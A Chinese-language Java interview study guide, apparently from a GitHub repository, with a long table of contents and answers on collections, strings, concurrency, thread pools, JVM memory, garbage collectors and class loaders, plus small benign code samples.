







# 重要面试题

## 目录

- [JavaSE基础](#JavaSE基础)
    - [面向对象设计的原则有哪些](#面向对象设计的原则有哪些)
    - [ThreadLocal的理解和底层结构](#ThreadLocal的理解和底层结构)
    - [Map实现类和底层数据结构](#Map实现类和底层数据结构)
    - [HashSet的底层实现](#HashSet的底层实现)
    - [ArrayList的扩容机制](#ArrayList的扩容机制)
    - [集合List Set Map特点](#集合List-Set-Map特点)
    - [String，StringBuilder，StringBuffer的区别?](#StringStringBuilderStringBuffer的区别)
    - [StringTable的特性](#StringTable的特性)
    - [Integer a = 128;Integer b = 128; a == b的结果是什么?](#Integer-a--128Integer-b--128-a--b的结果是什么)
    - [包装类和基本数据类型的区别](#包装类和基本数据类型的区别)
    - [深拷贝和浅拷贝的区别](#深拷贝和浅拷贝的区别)
    - [常见设计模式](#常见设计模式)
- [JavaSE高级](#JavaSE高级)
    - [Java中synchronized 和 ReentrantLock 有什么不同](#Java中synchronized-和-ReentrantLock-有什么不同)
    - [CountDownLatch，Semaphore 有什么作用？](#CountDownLatchSemaphore-有什么作用)
    - [线程创建有几种方式？](#线程创建有几种方式)
    - [为什么要使用线程池（线程池的作用）,线程池的初始化参数](#为什么要使用线程池线程池的作用线程池的初始化参数)
    - [jvm的内存结构](#jvm的内存结构)
    - [Java的四种引用，强软弱虚](#Java的四种引用强软弱虚)
    - [常见的cms和g1两种垃圾回收器的区别](#常见的cms和g1两种垃圾回收器的区别)
    - [Java类加载器，什么是双亲委派模型？](#Java类加载器什么是双亲委派模型)
    - [HashTable和ConcurrentHashMap的区别](#HashTable和ConcurrentHashMap的区别)
    - [乐观锁，悲观锁，排他锁（互斥锁，独占锁），共享锁，读写锁，统一锁，分段锁，自旋锁，偏向锁，轻量级锁，重量级锁](#乐观锁悲观锁排他锁互斥锁独占锁共享锁读写锁统一锁分段锁自旋锁偏向锁轻量级锁重量级锁)
    - [说说你对AQS的理解](#说说你对AQS的理解)
- [数据库](#数据库)
    - [mysql的常见数据引擎（存储引擎）和区别](#mysql的常见数据引擎存储引擎和区别)
    - [mysql的索引，聚集索引，回表，覆盖索引，索引重排，最左匹配](#mysql的索引聚集索引回表覆盖索引索引重排最左匹配)
    - [什么是数据库的事务，什么是脏读，不可重复读，幻读。](#什么是数据库的事务什么是脏读不可重复读幻读)
    - [如何提高mysql的sql执行效率](#如何提高mysql的sql执行效率)
    - [小表驱动大表](#小表驱动大表)
    - [MySQL中exists和in的区别](#MySQL中exists和in的区别)
    - [MySQL优化方案有哪些](#MySQL优化方案有哪些)
    - [数据库三大范式](#数据库三大范式)
    - [MySQL的redolog、undolog、binlog都是干什么的？](#MySQL的redologundologbinlog都是干什么的)
- [计算机网络](#计算机网络)
    - [tcp/ip协议网络模型](#tcpip协议网络模型)
    - [udp和tcp的区别](#udp和tcp的区别)
    - [tcp的三次握手和四次挥手](#tcp的三次握手和四次挥手)
    - [WebSocket与HTTP的关系](#WebSocket与HTTP的关系)
    - [常见的WEB漏洞有哪些？如何解决](#常见的WEB漏洞有哪些如何解决)
    - [什么是跨域请求，怎么解决](#什么是跨域请求怎么解决)
- [JavaEE框架](#JavaEE框架)
    - [过滤器和拦截器的区别](#过滤器和拦截器的区别)
    - [mybatis中取值方式有几种？各自的区别是什么？](#mybatis中取值方式有几种各自的区别是什么)
    - [mybatis的一级缓存和二级缓存](#mybatis的一级缓存和二级缓存)
    - [谈谈对spring框架的理解。IOC、DI和AOP。](#谈谈对spring框架的理解IOC、DI和AOP)
    - [Spring AOP 和 AspectJ AOP 有什么区别](#Spring AOP 和 AspectJ AOP 有什么区别)
    - [@Autowired和@Resource注解的区别](#@Autowired和@Resource注解的区别)
    - [spring常见的注解有哪些?](#spring常见的注解有哪些)
    - [SpringMVC处理请求的流程](#SpringMVC处理请求的流程)
    - [springboot的starter机制（自动装配）](#springboot的starter机制（自动装配）)
    - [spring中bean对象的生命周期](#spring中bean对象的生命周期)
    - [Spring中有哪几种方式把bean对象交给IOC容器](#Spring中有哪几种方式把bean对象交给IOC容器)
    - [SpringBoot启动过程](#SpringBoot启动过程)
    - [spring如何使用三级缓存解决循环依赖的问题。](#spring如何使用三级缓存解决循环依赖的问题)
    - [Spring事务失效的几个场景](#Spring事务失效的几个场景)
    - [springBoot中的定时任务](#springBoot中的定时任务)
    - [Spring框架中的单例bean是线程安全的吗?](#Spring框架中的单例bean是线程安全的吗)
    - [Spring中的设计模式有哪些?](#Spring中的设计模式有哪些)
- [分布式](#分布式)
    - [缓存击穿，穿透，雪崩](#缓存击穿穿透雪崩)
    - [为什么要使用Redis,Redis基本数据类型,Redis的持久化机制。](#为什么要使用RedisRedis基本数据类型Redis的持久化机制)
    - [cap定理和base定理是什么？](#cap定理和base定理是什么)
    - [分布式事务的解决方案](#分布式事务的解决方案)
    - [如何保证接口的幂等性。](#如何保证接口的幂等性)
    - [如何使用redis实现分布式锁。](#如何使用redis实现分布式锁)
    - [如何保证缓存的一致性。](#如何保证缓存的一致性)
    - [哨兵机制的基本流程](#哨兵机制的基本流程)
    - [nacos 的工作原理](#nacos-的工作原理)
    - [openFeign的工作原理 ](#openFeign的工作原理-)
    - [常见的限流算法](#常见的限流算法)
    - [各个组件的流量(QPS)参考能力](#各个组件的流量QPS参考能力)
- [场景案例](#场景案例)
    - [个人技术栈介绍](#个人技术栈介绍)
    - [使用SpringAop和RabbitMQ实现日志的记录功能。](#使用SpringAop和RabbitMQ实现日志的记录功能)
    - [Redis中秒杀的功能。](#Redis中秒杀的功能)
    - [商品模块的商品属性表的设计](#商品模块的商品属性表的设计)
    - [ES的站内分词高亮查询功能。](#ES的站内分词高亮查询功能)
    - [在哪些场景中用过多线程开发](#在哪些场景中用过多线程开发)
- [项目亮点](#项目亮点)
    - [项目的业务架构图，技术选型](#项目的业务架构图技术选型)
    - [项目业务的复杂度](#项目业务的复杂度)
    - [数据库单库单表数据量大如何水平和垂直拆分](#数据库单库单表数据量大如何水平和垂直拆分)
    - [缓存和数据库如何保持一致性](#缓存和数据库如何保持一致性)
    - [跨服务的分布式事务如何解决](#跨服务的分布式事务如何解决)
    - [实现分词高亮查询](#实现分词高亮查询)
    - [自媒体文章审核的具体做法](#自媒体文章审核的具体做法)
    - [看你最近做的这个项目持续时间还挺长的，那么这个过程中你觉得难度最大的是什么？](#看你最近做的这个项目持续时间还挺长的那么这个过程中你觉得难度最大的是什么)

# JavaSE基础

## 面向对象设计的原则有哪些

```markdown
1. 开闭原则：开发的模块必须是开放的，支持扩展的，而不是僵化的。封闭指的是对模块的功能进行扩展时，不应该影响或者大规模地影响以有的程序模块，而是通过增加新类的方式去扩展功能。
2. 里氏替换原则:子类型必须能够替换掉他们的父类型、并出现在父类能够出现的任何地方。LSP原则能让我们正确地设计出合理的对象继承设计、合理地应用抽象机制。
3. 单一职能原则：避免相同的职责分散到不同的类中。避免一个类承担太多的职责。
4. 接口隔离原则：一个类对另外一个类的依赖是建立在一个最小的接口之上的。客户端程序不应该依赖它不需要的接口方法。简单的说就是不要创建臃肿庞大的接口，要把接口尽量细化，方法尽量少。
5. 依赖倒转原则:上层模块不应该直接依赖于下层模块，而应该依赖的是接口。抽象不能依赖于具体，具体应该依赖于抽象。简单理解就是面向接口编程。
6. 迪米特法则:一个对象应当对其他对象有尽可能少的了解,不和陌生人说话.降低各个对象之间的耦合，提高系统的可维护性。又称最少知识原则。
7. 组合聚合复用原则:尽量使用对象组合，而不是继承来达到复用的目的。继承关系是强耦合，组合关系是低耦合。
```

## ThreadLocal的理解和底层结构

```markdown
1. 本地线程，线程绑定技术。
   简单： 将一个对象存入当前线程中，在后续执行流程中，任意位置都可以获得该对象数据，从而实现线程内的数据共享。

2. 应用场景

* service控制事务和dao访问db，使用conn，必须是同一个。
* mybatis控制事务的sqlsession和访问db的使用sqlsession，必须是同一个。
* 在filter中，拦截通用的参数，处理完毕后，在后续controller service 任意位置都可以直接获取值，比如分页参数。

3. ThreadLocal底层数据结构
   在Thread类中都存在以Map集合，当调用thradLocal.set方法的时候，都是到Thread类的map集合里面放元素。
   key：当前threadlocal对象
   value：共享数据对象。 
```

## Map实现类和底层数据结构

```markdown
# Map实现类

HashMap
使用Hash算法实现, key无序.
TreeMap
使用Tree实现, key可以进行排序.

```

1. HashMap底层使用数组+链表方式实现



2\.
HashMap将将要存储的值按照key计算其对应的数组下标，如果对应的数组下标的位置上是没有元素的，那么就将存储的元素存放上去，但是如果该位置上已经存在元素了，那么这就需要用到我们上面所说的链表存储了，将数据按照链表的存储顺序依次向下存储就可以了。


&#x20; 3\. 当HashMap的链表长度超过一个固定值(8),并且数组长度大于等于64后，会将当前这个链表转化为红黑树.&#x20;


&#x20;4\. 对于初始长度为16的数组，当其中存储的数据长度等于16\*0.75=12时。就会对数组元素进行扩容，扩容量是原来数组容量的2倍。


## HashSet的底层实现

```markdown
HashSet 底层就是基于 HashMap 实现的。
HashSet的add方法，直接调用HashMap的put方法，将添加的元素作为key，new一个Object作为value，直接调用HashMap的put方法，它会根据返回值是否为空来判断是否插入元素成功。
```

## ArrayList的扩容机制

```text
ArrayList无参的初始容量是0,第一次扩容会扩容到10，等添加第11个元素的时候发生扩容，一次扩容是原来的1.5倍。然后把旧数组里面的数据复制到新数组里面。
扩容的时候先用当前数组的长度右移一位，15>>1==7 然后再加上当前数组长度。得到新的数组的长度。addAll的方法扩容方法，当原始容量不够时，会在下次扩容时的大小和数组的长度大小两者取较大值。
```

## 集合List Set Map特点

```markdown
# List集合:

有序号(从0开始)
对象可以重复
有顺序(维持了存入的顺序)

# Set集合:

无序号
对象不可以重复
注意：
① 默认set认为对象的地址是一样的，才是重复对象。对象的属性值一样，不属于重复对象。
② set对存入对象判定是否是同一对象的规则：
先判断对象hashcode是否一样。(类似对象地址)。
如果hashcode相同， 会继续调用对象equals方法，判定对象是否相同。
如果希望set认为对象的属性值一样， 就是同一对象只保留1份。
重写对象hashcode方法和equals
重写规则： 尽量让相同对象的hashcode相同， 对象属性不一样的对象的equals返回false

无顺序(对象存入set后,顺序混乱)

# Map集合

每个对象Entry，包含key-value
key不可以重复
value可以重复
无顺序
```

## String，StringBuilder，StringBuffer的区别?

```markdown
# String不可变性

1. 串池中的字符串, 是jvm级别, 多线程共享, 一旦某个线程修改字符串内容, 导致其他线程对于该字符串引用内容, 发生意外修改,
   不安全.
2. String对象,在做字符串拼接,修改字符串, 必须新创建一个新的字符串.---(字符串不可变性)
   总结: 字符串对象一旦创建, 内容是不会改变.

# 题目答案：

1. String不可变性导致拼接会产生大量中间对象, 浪费时间, 浪费空间 效率降低.
2. StringBuilder可变字符串, 在拼接, 避免中间对象的产生,节省空间, 节省时间. 效率高.

# 补充

String 字符串常量 不可变 使用字符串拼接时是不同的2个空间
StringBuffer 字符串变量 可变 字符串拼接直接在后面追加 线程安全
StringBuilder 字符串变量 可变 字符串拼接直接在后面追加 非线程安全

```

## StringTable的特性

```markdown
1. jdk中利用了串池机制，避免了重复创建字符串对象。串池就是StringTable他是一个map集合。
2. 字符串变量在jdk1.8中用加号拼接时使用的是StringBuilder类。
3. 字符串常量拼接的原理是编译期优化。
4. jdk中intern方法是将串池中还没有的字符串对象放入到串池里面，如果串池中已经有了，那就不放了，但是返回串池里面的对象。jdk1.6是复制，jdk1.8是移动。
5. StringTable的位置？jdk1.6是在方法区，jdk1.8转移到了堆里面。

```

```java
public static void main(){
        String s1="a";
        String s2="b";
        String s3="a"+"b";
        String s4=s1+s2;
        String s5="ab";
        String s6=s4.intern();

        //问
        System.out.println(s3==s4); //false
        System.out.println(s3==s5); //true
        System.out.println(s3==s6); //true

        String x1="cd";
        String x2=new String("c")+new String("d");
        String x3=x2.intern();

        //问，如果调换了x1，x2的位置呢，如果是jdk1.6呢
        System.out.println(x1==x2); //false
        }
```

## Integer a = 128;Integer b = 128; a == b的结果是什么?

```markdown
# 常量池：

1. jvm认为数字 -128 ~ 127之间的数字在java程序使用频率是最高。
2. 每次使用数字， 都需在内存中开辟空间(占用空间)， 初始化数据(消耗时间)
3. jvm启动时候，会在内存中先初始化一定数量的数字：-128~127之间。
4. 后续java程序运行期间， 凡是需要使用-128~127之间数字的，都直接从常量池获取，减少数字重复占用内存， 减少数字创建等待时间。效率提升了。
```

## 包装类和基本数据类型的区别

```markdown
# 说明

基本数据类型: byte short int long float double boolean char (8种)
包装数据类型: Integer Long Byte Short Double Boolean Character
区别:

1. 包装类型属于对象类型
2. 包装类型的默认值是null;
   例子:
   Double score = null;
   Double score = 0.0;

在网上商城项目中，价格不要使用Double类型。
BigDecimal b = new BigDecimal("130.08");
BigDecimal result = b.multiply(new BigDecimal("100"));
System.out.println(result);

```

## 深拷贝和浅拷贝的区别

```markdown
浅拷贝:被复制对象的所有变量都含有与原来的对象相同的值,而所有的对其他对象的引用仍然指向原来的对象.换言之,浅拷贝仅仅复制所拷贝的对象,而不复制它所引用的对象.
深拷贝:被复制对象的所有变量都含有与原来的对象相同的值.而那些引用其他对象的变量将指向被复制过的新对象.而不再是原有的那些被引用的对象.换言之.深拷贝把要复制的对象所引用的对象都复制了一遍.
```

## 常见设计模式

```markdown
单例、工厂、代理、策略、责任链、建造者、观察者、装饰器、适配器、模板

单例：单例是在整个应用程序环境中只会存在一份对象，分为饿汉式单例模式和懒汉式单例模式，饿汉式是在类初始化的时候将所有的单例对象全部生成，而懒汉式是在使用的时候才会生成对象。

工厂：工厂是通过给一个工厂类传入指定参数来实例化一个对象，它与策略设计模式类似，但是工厂更侧重的是对象的实例化，比如生成的对象是猫还是狗。

代理：代理是对原始类进行增强，比如在原始类的方法执行前后进行一些操作。它分为静态代理和动态代理，静态代理是在编译期间就已经生成代理类，而动态代理是在运行期间生成代理类，静态代理的缺点是每个代理类只能代理一个原始类，而动态代理可以代理多个原始类。

策略：策略通过给一个策略类传入指定参数来决定处理的逻辑，它与工厂设计模式相比，更侧重的是逻辑的处理，比如支付方式应该选择支付宝还是微信。

责任链：责任链是将一个请求按照一定的顺序交给多个处理器来进行处理，每个处理器都可以对其进行处理或者传递给链上的下一个处理器。

建造者：建造者是将一个复杂对象的创建分解为多个简单的对象一步一步构建而成，它注重方法的调用顺序，它还将变与不变相分离，即产品的组成部分是不变的，但每一部分是可以灵活选择的。

观察者：观察者由成为发布订阅模式，是在对象之间定义一种一对多的依赖关系，当一个对象的状态发生改变时，所有依赖于它的对象都会得到通知并自动更新。

装饰器：装饰器是在不改变原始类的情况下，对原始类进行增强，比如在原始类的方法执行前后进行一些操作，它有点类似代理模式，但是代理模式做的额外处理跟原始方法没有关系，比如权限控制日志打印，而装饰器则是对原始方法进行扩展添加额外的功能。

适配器：适配器是将一个类的接口转换成客户希望的另一个接口，它使得原本由于接口不兼容而不能一起工作的那些类可以一起工作，比如写一个适配器类，然后实现一个目标接口，同时持有一个需要适配的适配者类对象。通过适配器类的中间转换实现了适配器类与目标接口的兼容。

模板：模板是在一个抽象类中定义了执行它的方法模板，它的子类可以按照需要重写方法进行实现，但具体的使用将以抽象类中定义的方式进行。
```

# JavaSE高级

## Java中synchronized 和 ReentrantLock 有什么不同

```markdown
# 相似点：

这两种同步方式有很多相似之处，它们都是加锁方式同步，而且都是阻塞式的同步，也就是说当如果一个线程获得了对象锁，进入了同步块，其他访问该同步块的线程都必须阻塞在同步块外面等待，而进行线程阻塞和唤醒的代价是比较高的.

```

| 比较项   | ReentrantLock（可重入锁）                                                                      | synchronized                                              |
| ----- | ---------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| 原始构成  | 它是JDK 1.5之后提供的API层面的互斥锁类                                                                 | 它是java语言的关键字，是原生语法层面的实现，通过jvm实现的一个功能                      |
| 实现    | api层面的加锁解锁，需要手动释放锁                                                                       | 通过JVM加锁解锁                                                 |
| 代码编写  | 而ReentrantLock则必须要用户去手动释放锁，如果没有主动释放锁，就有可能导致出现死锁现象。需要lock()和unlock()方法配合try/finally语句块来完成 | 当synchronized方法或者synchronized代码块执行完之后，系统会自动让线程释放对锁的占用，更安全 |
| 灵活性   | 灵活性更好，可以跨方法调用加锁和解锁                                                                       | 只能应用在一个方法块里面，不能跨方法调用                                      |
| 等待可中断 | 可以在调用加锁代码的时候指定等待时长，当超过这个时长后线程就不再等待了。                                                     | 无法实现中断操作，必须等前面的线程释放锁，他才能做事情。                              |
| 公平性   | 可以实现公平锁                                                                                  | 不能实现公平锁                                                   |
| 适用情况  | 在高并发情况下比synchronized性能要好                                                                 | 在并发量不高的情况下效率更高                                            |

## **CountDownLatch，Semaphore 有什么作用**？

CountDownLatch和Semaphore都是jdk1.5提供的一个工具类可以实现线程的通信。

CountDownLatch里面有个计数器，每个线程都可以通过调用CountDownLatch的countDown方法对计算器进行减一操作。一旦CountDownLatch的计数器由正数变为0后，调用了CountDownLatch的await方法的线程就会被唤醒。以此来实现线程间的通信。

Semaphore 通常我们叫它信号量， 可以用来控制同时访问特定资源的线程数量，通过协调各个线程，以保证合理的使用资源。

```java
public class TestCar {
​
    //停车场同时容纳的车辆3
    private static Semaphore semaphore = new Semaphore(3);
​

    public static void main(String[] args) {
​
        //模拟5辆车进入停车场
        for (int i = 0; i < 5; i++) {
​
            Thread thread = new Thread(new Runnable() {
                public void run() {
                    try {
                        System.out.println("====" + Thread.currentThread().getName() + "来到停车场");
                        if (semaphore.availablePermits() == 0) {
                            System.out.println("车位不足，请耐心等待");
                        }
                        semaphore.acquire();//获取令牌尝试进入停车场
                        System.out.println(Thread.currentThread().getName() + "成功进入停车场");
                        Thread.sleep(new Random().nextInt(10000));//模拟车辆在停车场停留的时间
                        System.out.println(Thread.currentThread().getName() + "驶出停车场");
                        semaphore.release();//释放令牌，腾出停车场车位
                    } catch (InterruptedException e) {
                        e.printStackTrace();
                    }
                }
            }, i + "号车");​
            thread.start();

        }
    }
}
```

## **线程创建有几种方式**？

1. 通过继承Thread类。
2. 实现Runnable接口。
3. 实现Callable接口，线程执行完毕后可以获取到线程运行的结果。
4. 通过线程池技术。

## **为什么要使用线程池（线程池的作用）,线程池的初始化参数**

线程池可以保存若干个线程对象，不用每次使用线程的时候都去创建，频繁创建和销毁线程需要浪费资源。各个任务执行完毕后把线程归还给线程池不用销毁和创建线程，节约了资源。

线程池的七个参数：

1. 核心线程数
2. 最大线程数，核心线程数+额外线程数
3. 空闲时间
4. 空闲时间的单位
5. 任务队列
6. 线程工厂。可以对创建的线程进行自定义。
7. 拒绝策略。线程池给了我们若干个默认策略。我们可以重写接口实现拒绝策略。

   一般我们创建线程池时，为防止资源被耗尽，任务队列都会选择创建有界任务队列，但种模式下如果出现任务队列已满且线程池创建的线程数达到你设置的最大线程数时，这时就需要你指定ThreadPoolExecutor的RejectedExecutionHandler参数即合理的拒绝策略，来处理线程池"
   超载"的情况。ThreadPoolExecutor自带的拒绝策略如下：

1、AbortPolicy策略：该策略会直接抛出异常，阻止系统正常工作；

2、CallerRunsPolicy策略：如果线程池的线程数量达到上限，该策略会把任务队列中的任务放在调用者线程当中运行；

3、DiscardOledestPolicy策略：该策略会丢弃任务队列中最老的一个任务，也就是当前任务队列中最先被添加进去的，马上要被执行的那个任务，并尝试再次提交；

4、DiscardPolicy策略：该策略会默默丢弃无法处理的任务，不予任何处理。当然使用此策略，业务场景中需允许任务的丢失；


## **jvm的内存结构**

jvm的内存有五块内容：

1. 程序计数器
2. java虚拟机栈
3. java堆
4. 本地方法栈
5. 方法区

程序计数器：一个线程有一个程序计数器空间，这块空间用来保存当前线程执行到哪行代码。

虚拟机栈：一个线程对应一个虚拟机栈。虚拟机栈对应的是栈结构，一个栈里面的一个元素我们称之为栈帧。一个栈帧对应一个java方法。一个栈帧包含了很多信息：1.局部变量表，2.操作数栈，3.动态链接，4.方法返回地址。

java堆：存储程序运行过程中产生的对象信息。堆空间被划分成了两大块。1.新生代2.老年代。新生代分了三块区域分别是伊甸区和幸存区1和幸存区2。刚创建的对象放入到新生代，新生代满了，放入第一个幸存区，两个空间都满了开始垃圾回收，回收一次，大概会释放十分之九的空间。留下的对象，年龄加1.留下的对象会被复制到幸存区2里面。然后再往幸存区放对象，满了后，做垃圾回收，把存活对象放入到幸存区1里面。超过15岁的对象会被转移到老年代。老年代做垃圾回收时需要消耗更多的时间，所以我们应该避免老年代的垃圾回收。在做垃圾回收的时候，我们的业务线程会停止下来，供垃圾回收线程工作。这个现象被称为stop
the world简称stw。

本地方法栈：跟虚拟机栈结构类似，区别是本地方法栈里面存储的是被native修饰的方法。虚拟机栈里面存储的是一般方法。

方法区：存储一些常量信息，比如类的信息以及字符串常量信息。


## Java的四种引用，强软弱虚

```markdown
# 强引用

强引用是平常中使用最多的引用，强引用在程序内存不足（OOM）的时候也不会被回收，使用方式：
String str = new String("str");

# 软引用

软引用在程序内存不足时，会被回收，使用方式：
// 注意：wrf这个引用也是强引用，它是指向SoftReference这个对象的，
// 这里的软引用指的是指向new String("str")的引用，也就是SoftReference类中T
SoftReference<String> wrf = new SoftReference<String>(new String("str"));

可用场景： 创建缓存的时候，创建的对象放进缓存中，当内存不足时，JVM就会回收早先创建的对象。

# 弱引用

弱引用就是只要JVM垃圾回收器发现了它，就会将之回收，使用方式：
WeakReference<String> wrf = new WeakReference<String>(str);
可用场景： Java源码中的 java.util.WeakHashMap 中的 key 就是使用弱引用，我 的理解就是，一旦我不需要某个引用，JVM会自动帮我处理它，这样我就不需要做其它操作。

# 虚引用

虚引用的回收机制跟弱引用差不多，但是它被回收之前，会被放入 ReferenceQueue 中。注意哦，其它引用是被JVM回收后才被传入
ReferenceQueue 中的。由于这个机制，所以虚引用大多被用于引用销毁前的处理工作。还有就是，虚引用创建的时候，必须带有
ReferenceQueue ，使用
例子：
PhantomReference<String> prf = new PhantomReference<String>(new String("str"), new ReferenceQueue<>());
可用场景： 对象销毁前的一些操作，比如说资源释放等。Object.finalize() 虽然也可以做，这类动作，但是这个方式即不安全又低效

上诉所说的几类引用，都是指对象本身的引用，而不是指 Reference 的四个子类的引用
( SoftReference 等)。
```

## 常见的cms和g1两种垃圾回收器的区别

|        |                           |                         |
| ------ | ------------------------- | ----------------------- |
|        | cms                       | g1                      |
| 使用范围   | cms是老年代的收集器要配合新生代的收集器一块使用 | 可以用在新生代和老年代里面不需要配合其他收集器 |
| stw的时间 | 以最小的停顿时间为目标               | 可预测垃圾回收的停顿时间            |
| 垃圾碎片   | 标记-清除算法，容易产生内存碎片          | 标记-整理算法，降低了内存空间碎片       |
| 回收过程   | 初始标记-并发标记-重新标记-并发清除       | 初始标记-并发标记-最终标记-筛选回收     |

## **Java类加载器，什么是双亲委派模型？**

类加载器顾名思义，就是做类加载的。虚拟机把描述类的数据从class字节码文件加载到内存，并对数据进行检验、转换解析和初始化，最终形成可以被虚拟机直接使用的Java类型，这就是虚拟机的类加载机制。它在JVM外部，负责将class文件，解析成JVM能识别的Java的类,类加载器ClassLoader中它生命周期包括加载、链接、初始化,链接又分为
验证，准备，解析三个部分。记不住没关系，我们有口诀“家宴准备了西式菜”，即家(加载)宴(验证)准备 (准备)了西(解析)式(初始化)菜。


- Bootstrap ClassLoader启动类加载器：负责加载存放在JDK\jre\lib(JDK代表JDK的安装目录),如rt.jar，所有的java.开头的类均被Bootstrap
  ClassLoader加载。
- Extension ClassLoader扩展类加载器：它负责加载JDK\jre\lib\ext目录中。
- AppClassLoader应用程序类加载器：它负责加载用户类路径（ClassPath）所指定的类，开发者可以直接使用该类加载器，如果应用程序中没有自定义过自己的类加载器，一般情况下这个就是程序中默认的类加载器。
- 用户自定义类加载器：用户根据自己业务需求自己定义的加载器。

